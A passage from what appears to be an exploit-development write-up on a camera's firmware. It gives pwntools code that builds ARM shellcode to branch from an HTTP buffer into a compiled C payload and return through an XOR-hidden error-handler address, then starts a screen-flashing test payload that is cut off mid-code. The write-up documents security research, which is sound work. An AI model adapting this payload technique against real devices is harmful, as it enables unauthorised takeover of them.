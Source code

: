 ## Spawning a Thread

So right now, we are getting execution, and then immediately fixing up and returning to normal execution, which is no fun. Ideally, because of the watchdog issue, and to maintian normal functionality, it would be great if we could spawn a thread and run a payload there.

### Executing a C Payload

As we are executing in the large HTTP buffer, I can simply compile a C file and extract the binary to load into memory - appending it to my HTTP request to get it into memory. We can then add a couple of instructions to the fixup payload that branch to the larger payload using *blx* so that execution continues in the fixup when our payload is finished.

Here is the simple modification to the fixup function:

```
-python
def generate_fixup_example_payload():
    # need to jump to 0x41e040 as this is an error handler in above function
    fixup_address = 0x41e040

    instructions = asm(f'''
        add r3, r3, #0x40    @ Add 0x40 to r3
        blx r3               @ Branch with link to address in r3
        ldr r5, [pc, #0x8]  /* Load address of pointer from literal pool */
        ldr r6, [pc, #0x8]  /* load key */
        eor r5, r5, r6         /* get original pointer */
        bx r5               /* Jump to the loaded address */
    ''', arch='arm', endian='little')

    literal_pool = p32(fixup_address ^ 0xffffffff) + p32(0xffffffff)

    return instructions + literal_pool
```

We can use an identical method to either the *Camera* or *Action Camera* projects, so refer back to those projects for more details.

### Screen Flash Payload

As a tester, I did a bit of reversing in the binary to find something I could use to check that my C payload was executing properly. I initially was going to flash a light, but I quickly realised there isn't one on this camera, so I went with the screen instead.

I located a function which sets the brightness of the display, so that I could turn the screen on and off in a loop to indicate that my C payload is executing. Here is the code I put together:

```
-c
#include <stdint.h>

#define LibXmDvr_SpiLcd_setLuminance_ADDR 0x13008
#define SLEEP_ADDR 0x11c10

typedef int LibXmDvr_SpiLcd_setLuminance_t(uint32_t luminance);
typedef uint32_t sleep_t(uint32_t seconds);

int _start(void) {
    LibXmDvr_SpiLcd_setLuminance_t *LibXmDvr_SpiLcd_setLuminance = (LibXmDvr_SpiLcd_setLuminance_t *) LibXmDvr_SpiLcd_setLuminance_ADDR;
    sleep_t *sleep = (sleep_t*) SLEEP_ADDR;

    char flippy = 0;
    while(1){
        uint32_t new_setting;
        if (flippy == 0){
```